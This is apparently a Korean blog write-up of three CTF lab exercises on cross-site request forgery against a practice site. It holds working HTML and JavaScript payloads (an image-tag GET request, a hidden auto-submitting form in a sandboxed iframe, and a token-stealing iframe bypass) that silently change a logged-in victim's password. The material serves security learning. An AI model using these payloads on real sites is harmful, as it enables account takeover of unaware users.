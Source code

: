 ```yaml
---
title: "CSRF"
date: 2025-07-10
layout: single
toc: true
toc_label: "CSRF"
toc_icon: "book"
toc_sticky: true
tags: [web, xss, hacking]
header:
  teaser: /assets/images/csrf.png
---
```


# 개요

이 페이지는 웹 애플리케이션 내 Cross-Site Request Forgery (CSRF) 취약점을 이용하는 실습 기록입니다.

공격자의 관점으로 피해자의 브라우저를 통해 의도하지 않은 요청이 전송되도록 악성 요청을 구성하며, 이를 통해 계정 설정 변경, 비밀번호 변경 등의 동작을 수행할 수 있습니다.

---

# 실습 내용 정리

## CSRF 1

해당 기능은 사용자 정보를 변경하는 요청을 **HTTP GET 방식으로도 처리하고 있으며**, `CSRF Token`이나 `Referer` 검증 없이 파라미터만으로 사용자의 정보를 변경할 수 있어 외부 요청에 취약한 구조를 가진다.

![CSRF1 burp suite](/assets/screenshots/csrf/csrf1_burp_suite.png)

공격자는 게시판 기능을 이용해 다음과 같이 **사회공학적 미끼 제목**과 함께 CSRF 공격용 이미지를 삽입하였다.

**페이로드:**

```html
<img src="http://ctf.segfaulthub.com:7575/csrf_1/mypage_update.php?id=&info=&pw=1234">
```

![CSRF1 post](/assets/screenshots/csrf/csrf1_post.png)

 
사용자는 일반 게시글처럼 보여 클릭 유도

![CSRF1 list](/assets/screenshots/csrf/csrf1_list.png)

관리자가 로그인된 상태로 해당 게시글을 조회할 경우,  
**삽입된 이미지 태그를 통해 자동으로 GET 요청이 전송되며, 사용자의 비밀번호가 공격자가 지정한 값으로 변경된다**.

---

## CSRF 2

해당 기능은 POST 요청으로 사용자 정보를 변경하는 API를 제공하고 있으나, 서버는 `CSRF Token` 검증 또는 `Referer` 검증 없이 요청을 처리한다.

이로 인해 공격자가 외부 HTML 문서 내에 자동으로 전송되는 `form`을 작성할 경우, 피해자의 세션을 이용한 비밀번호 변경이 가능하다.

![CSRF2 burp suite](/assets/screenshots/csrf/csrf2_burp_suite.png)

요청 파라미터 중 `id` 값을 빈 문자열(`""`)로 설정하더라도,  
서버는 이를 별도 검증 없이 **현재 로그인된 사용자 세션 기준으로 자동 대체 처리**하는 구조를 가지고 있다.


![CSRF2 post](/assets/screenshots/csrf/csrf2_post.png)

**페이로드:**

```html
<iframe name="frame" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>

<form action="http://ctf.segfaulthub.com:7575/csrf_2/mypage_update.php" method="POST" target="frame">
  <input type="hidden" name="id" value="">
  <input type="hidden" name="info" value="">
  <input type="hidden" name="pw" value="12345">
</form>

<script>
  document.forms[0].submit();
</script>
```

이로 인해 공격자는 사용자의 ID를 몰라도, 단순히 게시글을 열게 만드는 것만으로 **그 사용자의 비밀번호를 변경시킬 수 있으며**,

같은 게시글을 여러 사용자가 열 경우, 
**각각 자신의 계정 기준으로 비밀번호가 바뀌는 광범위한 피해가 발생할 수 있다.**

또한 공격자는 `<iframe>`에 `sandbox="allow-forms allow-same-origin"` 옵션을 설정함으로써,  
폼 전송은 허용하면서도 서버 응답 내 JavaScript(alert 등)를 실행하지 않도록 설정 한다.

따라서 피해자는 **회원 정보 수정에 성공하셨습니다!** 와 같은 안내 알림이 나타나지 않아,  
**비밀번호가 변경되었음에도 공격 사실을 인지하지 못한 채 CSRF 공격에 노출된다.**

---

## CSRF 3
 
해당 기능은 CSRF Token이 적용되어 있지만, `mypage.php` 페이지를 통해 토큰 값을 클라이언트에 노출시키는 구조이며, 서버는 전달된 토큰 값의 유효성만 검증한 뒤 사용자 정보를 수정한다.

공격자는 이를 악용하여 다음과 같이 **토큰 값을 사전에 iframe을 통해 추출 후**, 해당 값을 포함한 POST 요청을 자동으로 생성하여 사용자의 정보(비밀번호 등)를 변경할 수 있다.


![CSRF3 burp suite](/assets/screenshots/csrf/csrf3_burp_suite.png)

공격자는 다음과 같은 구조의 HTML을 게시글에 삽입하여, **사용자가 게시글을 열었을 때 자동으로 토큰 추출 → 정보 변경이 발생하도록 구성**한다.

**페이로드:**

```html
<iframe src="http://ctf.segfaulthub.com:7575/csrf_3/mypage.php?user=user101" id="frame1" style="display:none"></iframe>
<iframe name="frame2" sandbox="allow-forms allow-same-origin" style="display:none"></iframe>
<form action="http://ctf.segfaulthub.com:7575/csrf_3/mypage_update.php" method="POST" target="frame2" style="display:none">
<input name="id" value="">
<input name="info" value="">
<input name="pw" value="123">
<input name="csrf_token" value="">
</form>

<script>
    window.onload = function () {
        const html_frame = document.getElementById("frame1").contentWindow.document;
        const token = html_frame.querySelector('input[name="csrf_token"]').value;
        document.querySelector('input[name="csrf_token"]').value = token;
        document.forms[0].submit();
    }
</script>
```

![CSRF3 post](/assets/screenshots/csrf/csrf3_post.png)

공격자 페이지에는 시각적으로 아무 것도 표시되지 않으며,
`form`, `iframe` 모두 `display:none` 처리되어 사용자는 공격 사실을 인지할 수 없다.

- 클라이언트 측에서 CSRF Token이 노출되는 구조에서는, 공격자가 `iframe` 등을 이용해 이를 추출하고 자동 요청을 구성함으로써 **Token 기반 방어 로직 또한 우회할 수 있다.**